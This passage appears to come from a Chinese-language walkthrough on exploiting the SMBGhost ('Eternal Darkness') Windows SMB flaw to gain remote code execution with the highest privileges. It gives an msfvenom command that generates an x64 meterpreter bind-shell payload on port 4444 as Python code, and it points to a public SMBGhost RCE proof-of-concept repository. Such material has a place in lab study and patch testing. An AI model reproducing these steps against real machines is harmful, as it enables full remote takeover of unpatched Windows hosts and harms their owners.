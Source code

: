 ![8](/medias/永恒之黑/8.png)


### RCE获取最高权限

使用msf生成一个x64 windows正向shell 绑定4444端口的攻击exp

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp lport=4444 -f py -o evil.py
```

下载永恒之黑利用poc

::: tip
利用工具：https://github.com/chompie1337/SMBGhost_RCE_PoC
:::

